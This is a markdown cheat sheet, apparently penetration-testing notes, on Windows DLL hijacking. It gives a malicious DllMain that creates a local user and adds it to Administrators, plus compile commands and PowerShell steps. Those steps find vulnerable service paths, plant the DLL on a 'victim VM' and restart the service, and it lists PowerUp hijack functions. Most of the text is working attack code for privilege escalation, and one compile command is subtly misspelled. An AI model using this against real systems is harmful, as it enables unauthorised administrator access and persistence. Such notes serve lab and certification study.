 # DLL-Hijacking
### Step-by-Step:
```cpp
#include <windows.h>
#include <stdlib.h>

BOOL APIENTRY DllMain(
	HANDLE hModule,
	DWORD ul_reason_for_call,
	LPVOID lpReserved)
{
	switch ( ul_reason_for_call ) {
	case DLL_PROCESS_ATTACH:
		int i;
		i = system("net user hutbut hutbut! /add");
		i = system("net localgroup administrators hutbut /add");
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

Compile using:
```bash
# cross compile regular code:
x86_64-w64-mingw32-gcc name_of_prg.c -o name_of_binary.exe
# turn the output into a dynamically linked loader (DLL):
x86_64-w64-mong32-gcc name_of_prg.cpp --shared -o name_of_DLL.dll
```

#### Complete Process - Manual
Get a list of running services:
```PowerShell
Get-CimInstance -ClassName win32_service | Select Name, State, PathName | Where-Object {$_.State -like "Running"}
```

Then check the permissions for the path that the service is on:
```PowerShell
icacls ".\Path\To\The\Service.exe"
```

```
(I) - INHERITED PERMISSIONS
(F) - FULL PERMISSIONS
(R,W,X) - READ, WRITE & EXECUTE PERMISSIONS
```

You need access to `Procmon.exe` in order to check for the DLLs that are being loaded by the service binary.

The structure of the DLL is something like this:
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
	HANDLE hModule,
	DWORD ul_reason_for_call,
	LPVOID lpReserved) {
	
	switch ( ul_reason_for_call ) {
		case DLL_PROCESS_ATTACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
		case DLL_PROCESS_DETACH:
			break;
	}
	return TRUE;
}
```

Generally for running powershell commands using C++ the following syntax is used:
```cpp
#include <stdlib.h>

int main() {
	int i;
	i = system("net user USERNAME PASSWORD /add");
	i = system("net localgroup GROUPNAME USERNAME /add");
	return 0;
}
```

After compiling, send it to the hijack path on the victim VM and restart the service that uses the hijacked DLL:
```PowerShell
Restart-Service service_name;
# now check if the user has been created:
Get-LocalGroupMember Administrators;
```

#### Complete Process - PowerSploit (PowerUp.ps1)
Import the PowerUp script:
```PowerShell
. .\PowerUp.ps1;
# now run:
Invoke-AllChecks
```
This checks everything. It may also give you an `AbuseFunction`.
```PowerShell
# powerup modules
Find-ProcessDLLHijack
Find-PathDLLHijack
Write-HijackDLL
```